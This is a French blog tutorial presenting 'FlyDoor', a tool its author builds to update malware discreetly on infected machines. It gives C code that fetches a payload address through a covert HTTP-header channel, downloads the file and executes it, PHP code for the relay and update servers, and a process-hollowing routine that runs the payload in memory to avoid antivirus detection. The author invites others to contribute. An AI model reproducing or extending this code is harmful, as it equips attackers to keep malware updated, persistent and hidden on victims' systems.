

Chers lecteurs, bonjour. Je vais aujourd'hui vous présenter le principe du logiciel FlyDoor. L'idée m'est venue à l'esprit après avoir lu un article sur le logiciel LOIC (permettant de faire des DoS).
Aujourd'hui nous connaissons tous le principe de l'auto-update qui permet la mise à jour de logiciels de manière automatisée. Ces petits programmes vous permettent d'avoir des logiciels toujours à jour et de corriger d'éventuels bugs.
Il m'est donc venu à l'idée d'appliquer la même méthode pour nos chers petits malwares. En effet, aujourd'hui de nombreux malwares sont des logiciels à part entière, avec leur part de bugs et d'améliorations possibles.
J'ai donc réalisé un programme permettant la mise à jour automatisée de vos logiciels de la manière la plus discrète possible. Voici le schéma de principe.

L'idée étant que le programme devra être capable de résister à une tentative de suppression du système de mise à jour. Pour cela je me suis inspiré du système des trackers du réseau torrent. En effet le programme va, dans un premier temps, récupérer auprès du serveur mandataire, l'adresse du serveur de mise à jour. Suite à cela il va vérifier que le fichier disponible sur le serveur est plus récent que l'actuel (à l'aide d'un CRC32), le télécharger et le lancer le cas échéant. Tout cela camouflé à l'aide d'un covert channel HTTP (voir [1], [2])
Voici donc le processus décrit en entier :
L'utilisation du programme sera donc de la forme suivante :
FlyDoor –mandatory-server=http://mandatory-server.com/backdoor.php
Où backdoor.php renverra via un tunnel caché l'adresse où télécharger la mise à jour du malware.
Maintenant que nous avons l'architecture de notre application, il ne reste plus qu'à la coder \o/.
Nous pouvons tout de suite voir que nous avons un nombre important de requêtes HTTP à réaliser, ce qui nous amène à choisir la librairie curl [3] pour nous faciliter la tâche.
De plus j'ai choisi de transmettre les données par le biais de l'en-tête HTTP sous la forme d'un "pseudo" canal caché. Il nous faudra aussi une librairie permettant d'utiliser les expressions régulières pour parser les en-têtes. Nous prendrons alors pcre [4] qui est une référence.
Pour finir, nous aurons également besoin de parser les arguments passés au programme. Pour cela j'ai opté pour argtable [5]. Cette librairie est plus simple à utiliser que getopt et est largement suffisante pour l'utilisation que l'on souhaite en faire.
Dans un premier temps on va initialiser la librairie curl :
CURL *curl; CURLcode res; curl = curl_easy_init();
Je ne vais pas refaire un tutoriel sur l'utilisation de la librairie curl [3], je vous renvoie pour cela à la documentation de la librairie. Ce qu'il faut savoir c'est que la majorité des commandes se font par le biais de la fonction curl_easy_setopt.
Après initialisation, nous allons donc récupérer l'adresse du serveur de mise à jour :
if(curl) {
curl_easy_setopt(curl, CURLOPT_URL, MANDATORYSERVER);
curl_easy_setopt(curl, CURLOPT_POSTFIELDS, "name=110a3755713adadcc2b9f3301c12d358");
curl_easy_setopt(curl, CURLOPT_HEADERFUNCTION, get_server);
res = curl_easy_perform(curl);
}
Ce code définit que nous envoyons une requête POST à MANDATORYSERVER avec comme argument name et en valeur le hash de "getbubbles". Nous définissons également que la fonction get_server doit effectuer le traitement de l'header HTTP reçu en réponse. Le prototype de la fonction est le suivant :
static size_t get_server(void* ptr, size_t size, size_t nmemb, void* userdata)
Il s'agit du prototype générique pour la majorité des handler de la libcurl. L'argument ptr contient les données reçues, size, la taille des données, nmemb, la taille du type de données et userdata permet de passer des arguments supplémentaires. Dans notre cas, cette fonction fait appel à get_data qui s'occupe de parser le header HTTP. J'ai choisi d'utiliser l'entête X-Data pour transmettre les données. Voici un exemple :
< HTTP/1.1 200 OK < Date: Tue, 12 Apr 2011 21:36:51 GMT < Server: Apache/1.3.34 (Ubuntu) < X-Powered-By: PHP/4.4.9-1.standard < X-Data: 4884da7754823b44ccc2b2106f21146e < Transfer-Encoding: chunked < Content-Type: text/html
Il nous faut ensuite parser notre header pour récupérer les informations intéressantes.
Ainsi donc la fonction get_data s'occupe de récupérer l'adresse du serveur de mise à jour pour l'exemple précédent. Voici le code de la routine en question.
#define PATTERN "(X-Data:) (.+)$"
re = pcre_compile(pattern,
0,
&error,
&erroffset,
NULL);
if (re != NULL)
{
rc = pcre_exec(re,
NULL,
line,
size * nmemb,
0,
0,
ovector,
OVECCOUNT);
if (rc > 0)
{
int i = 2;
char *substring_start = line + ovector[2*i];
int substring_length = ovector[2*i+1] - ovector[2*i];
strncpy_s(to, 512, substring_start, substring_length);
pcre_free(re);
}
}
Pour cette partie nous utilisons donc la librairie pcre. On peut voir que l'expression régulière chargée de récupérer les données est extrêmement simple, elle récupère tout ce qui suit le champ X-Data. Bien sûr libre à l'utilisateur de la modifier \o/. Cette feature sera intégrée dans une nouvelle version.
Dans notre exemple nous récupérons dans un premier temps l'adresse du serveur de mise à jour. Ensuite nous interrogeons le serveur pour obtenir le nom et le hash de la mise à jour. Cela se fait grâce à une requête POST avec comme paramètre name et comme valeur le MD5 de la commande "getfile" et de la commande "getcrc32".
// commande name = getfile curl_easy_setopt(curl, CURLOPT_POSTFIELDS, "name=b24ba6d783f2aa471b9472109a5ec0ee"); curl_easy_setopt(curl, CURLOPT_HEADERFUNCTION, get_filename);
Suivi de :
// commande name = getsum curl_easy_setopt(curl, CURLOPT_POSTFIELDS, "name=9ea01aea19194742b87d3663a3be06af"); curl_easy_setopt(curl, CURLOPT_HEADERFUNCTION, get_crc32);
Si ce hash est différent du fichier local, alors on récupère le fichier par une méthode GET :
FILE *fp;
if(curl)
{
fp = fopen(output, "wb");
curl_easy_setopt(curl, CURLOPT_HTTPGET, 1L);
curl_easy_setopt(curl, CURLOPT_URL, tmp);
curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_data);
curl_easy_setopt(curl, CURLOPT_WRITEDATA, fp);
res = curl_easy_perform(curl);
fclose(fp);
}
Une fois le fichier récupéré, on l'exécute avec les arguments passés à notre utilitaire :
_execv(update_filename, argv);
Et voilà \o/ la mise à jour a été réalisée avec succès. Vous pouvez enfin nettoyer toutes les ressources allouées pendant l'exécution du programme.
Ceci étant pour le code côté client. Du côté serveur nous avons donc besoin d'un serveur HTTP. Dans notre exemple, un serveur Apache. Mais n'importe quel serveur permettant de faire tourner du PHP peut faire l'affaire. Je vais donc vous présenter le code PHP du serveur tel que je l'ai réalisé.
Le serveur mandataire s'occupe de vérifier que les serveurs de mise à jour sont en ligne et renvoie le premier serveur fonctionnel de la liste :
<?php
$adresses = array("http://first-mirror:80/delivery.php",
"http://second-mirror:8080/delivery.asp");
if ($_POST["name"] == md5("getbubbles"))
{
foreach($adresses as $adresse)
{
if(@file_get_contents($adresse))
{
header("X-Data: http://".$adresse.'/');
break;
}
}
}
?>
Du côté du serveur de mise à jour, le code est extrêmement simple puisqu'il s'occupe de retourner le nom du fichier de mise à jour et sa somme CRC32 :
<?php
$backdoor = "http://127.0.0.1:80/test/update.exe";
$crc32 = sprintf( "%u", crc32(file_get_contents($backdoor)));
if (isset($_POST["name"]))
{
if ($_POST["name"] == md5("getfile"))
header("X-Data: ".$backdoor);
if ($_POST["name"] == md5("getsum"))
header("X-Data: ".$crc32 );
}
?>
La première version de FlyDoor intégrait simplement l'exécution de l'update depuis le disque dur mais depuis la version 2, l'exécution du fichier en mémoire a été intégrée. Cette fonctionnalité consiste à copier le fichier téléchargé directement en RAM au lieu de le copier sur le disque pour ne pas attirer l'attention des antivirus.
L'inconvénient de cette fonctionnalité est qu'il faut disposer des droits administrateur sur Windows Vista et plus récent du fait de l'utilisation de la fonction WriteProcessMemory.
Le principe de fonctionnement est assez basique même s'il faut des connaissances concernant le format PE [6]. Dans un premier temps on copie le fichier en mémoire. Ensuite on lance son exécution en mode pause. Puis, voici la partie la plus importante, on réaligne le header grâce à la nouvelle adresse de base de notre exécutable. Et enfin on résume (on fait reprendre) notre process.
Ci-dessous le code correspondant à cette partie, pour plus d'informations allez voir les sources sur le repository Google Code [7].
if(CreateProcess(NULL,
(LPWSTR)pPath,
&secAttrib,
&secAttrib,
0,
CREATE_SUSPENDED,
NULL,
NULL,
&peStartUpInformation,
&peProcessInformation))
{
pContext.ContextFlags = CONTEXT_FULL;
GetThreadContext(peProcessInformation.hThread,&pContext);
VirtualProtectEx(peProcessInformation.hProcess,
(void*)((DWORD)INH.OptionalHeader.ImageBase),
dwImageSize,
PAGE_EXECUTE_READWRITE,
&previousProtection);
WriteProcessMemory(peProcessInformation.hProcess,
(void*)((DWORD)INH.OptionalHeader.ImageBase),
pMemory,dwImageSize,&dwWritten) );
WriteProcessMemory(peProcessInformation.hProcess,
(void*)((DWORD)pContext.Ebx + 8),
&INH.OptionalHeader.ImageBase,
4,
&dwWritten));
pContext.Eax = INH.OptionalHeader.ImageBase + INH.OptionalHeader.AddressOfEntryPoint;
SetThreadContext(peProcessInformation.hThread,&pContext) );
VirtualProtectEx(peProcessInformation.hProcess,
(void*)((DWORD)INH.OptionalHeader.ImageBase),
dwImageSize,
previousProtection,
0);
ResumeThread(peProcessInformation.hThread);
}
Pour le moment seul un covert channel HTTP a été implémenté mais on pourrait imaginer d'autres types de covert channel (DNS, ICMP ou autres). La possibilité de modifier le format du covert channel par une personnalisation de l'expression régulière. De plus le code reste à améliorer, pour le moment de nombreux cas d'erreurs ne sont pas gérés mais toute aide extérieure sera appréciée \o/.
Voilà, j'espère que cette présentation vous aura permis d'apprendre pas mal de choses. Je me permets maintenant de lancer un appel à la communauté : j'ai créé un hébergement google code pour le projet et j'espère que vous prendrez le temps d'y jeter un œil voir même d'y participer \o/.
Vous pouvez accéder au projet à l'adresse : http://code.google.com/p/flydoor/
Bibliographie
[1] Frenchy Covert Channel, Flyers
[2] Tunneling et canaux cachés au sein du protocole HTTP, Simon Castro
[3] Libcurl
[4] Libpcre
[5] Argtable
[6] PE format
[7] FlyDoor
Vous pouvez retrouver les sources en ligne sur le SVN du projet.